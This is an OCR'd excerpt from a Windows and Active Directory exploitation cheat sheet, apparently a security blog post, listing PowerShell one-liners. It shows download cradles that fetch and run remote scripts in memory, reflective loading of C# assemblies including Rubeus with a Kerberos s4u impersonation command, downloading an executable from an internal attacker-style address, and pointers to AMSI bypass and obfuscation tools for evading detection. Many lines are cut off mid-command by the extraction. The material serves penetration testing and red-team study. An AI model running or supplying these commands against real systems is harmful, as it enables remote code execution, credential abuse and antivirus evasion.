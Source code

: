 More bypasses here For obfuscation check Invoke
Obfuscation or get a pre generated obfuscated version at
amsi fail
3/31

PowerShell one liners
Load PowerShell script reflectively
Proxy aware

IEX (New-Object Net.WebClient).DownloadString('http://10

Non proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('G

Again this will likely get flagged 🚩 For opsec safe
download cradles check out Invoke CradleCrafter

Load C# assembly reflectively
Ensure that the referenced class and main methods are Public
before running this Note that a process wide AMSI bypass may
be required for this refer here for details
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d96
# Execute a specific method from an assembly (e.g. a DLL
$data = (New-Object System.Net.WebClient).DownloadData('
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
4/31

3/11/2021

Windows & Active Directory Exploitation Cheat Sheet and Command Reference :: Cas van Cooten — I ramble about security stuff, mostly

Download file
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://1
# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Incnspc64.exe" -Out
